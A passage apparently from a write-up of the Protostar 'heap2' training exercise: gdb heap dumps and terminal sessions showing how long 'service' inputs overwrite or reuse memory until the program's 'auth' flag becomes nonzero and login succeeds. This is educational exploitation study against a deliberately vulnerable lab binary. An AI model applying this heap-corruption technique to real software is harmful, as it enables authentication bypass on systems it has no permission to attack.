0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$10 = {name = " AAA\n\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--------------service-------------------------------------------------------------------------------------------
$11 = 0x804c008 " AAA\n"
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = 0x804c008 ]
service BBB

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804c010:	0x00000000	0x00000011	0x42424220	0x0000000a
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$12 = {name = " AAA\n\000\000\000\000\000\000\000\021\000\000\000 BBB\n\000\000\000\000\000\000\000\341\017\000", auth = 0}
--------------service-------------------------------------------------------------------------------------------
$13 = 0x804c018 " BBB\n"
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
service CCC

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804c010:	0x00000000	0x00000011	0x42424220	0x0000000a
0x804c020:	0x00000000	0x00000011	0x43434320	0x0000000a
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$14 = {name = " AAA\n\000\000\000\000\000\000\000\021\000\000\000 BBB\n\000\000\000\000\000\000\000\021\000\000", auth = 1128481568}
--------------service-------------------------------------------------------------------------------------------
$15 = 0x804c028 " CCC\n"
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = 0x804c028 ]
```







```sh
login
you have logged in already!

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804c010:	0x00000000	0x00000011	0x42424220	0x0000000a
0x804c020:	0x00000000	0x00000011	0x43434320	0x0000000a
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$16 = {name = " AAA\n\000\000\000\000\000\000\000\021\000\000\000 BBB\n\000\000\000\000\000\000\000\021\000\000", auth = 1128481568}
--------------service-------------------------------------------------------------------------------------------
$17 = 0x804c028 " CCC\n"
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = 0x804c028 ]
```

```sh
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap2

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	heap2/heap2.c: No such file or directory.
	in heap2/heap2.c
Current language:  auto
The current source language is "auto; currently c".
----------------------------------------------------------------------------------------------------------------
0x804c000:	Cannot access memory at address 0x804c000
(gdb) c
Continuing.
[ auth = (nil), service = (nil) ]
auth admin

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$18 = {name = "admin\n\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--------------service-------------------------------------------------------------------------------------------
$19 = 0x0
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804c010:	0x00000000	0x00000029	0x41414120	0x41414141
0x804c020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c030:	0x41414141	0x000a4141	0x00000000	0x00000fc9
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$20 = {name = "admin\n\000\000\000\000\000\000)\000\000\000 ", 'A' <repeats 15 times>, auth = 1094795585}
--------------service-------------------------------------------------------------------------------------------
$21 = 0x804c018 " ", 'A' <repeats 29 times>, "\n"
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
----------------------------------------------------------------------------------------------------------------
0x804c000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804c010:	0x00000000	0x00000029	0x41414120	0x41414141
0x804c020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c030:	0x41414141	0x000a4141	0x00000000	0x00000fc9
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--------------auth----------------------------------------------------------------------------------------------
$22 = {name = "admin\n\000\000\000\000\000\000)\000\000\000 ", 'A' <repeats 15 times>, auth = 1094795585}
--------------service-------------------------------------------------------------------------------------------
$23 = 0x804c018 " ", 'A' <repeats 29 times>, "\n"
----------------------------------------------------------------------------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
```

```sh
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth admin
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```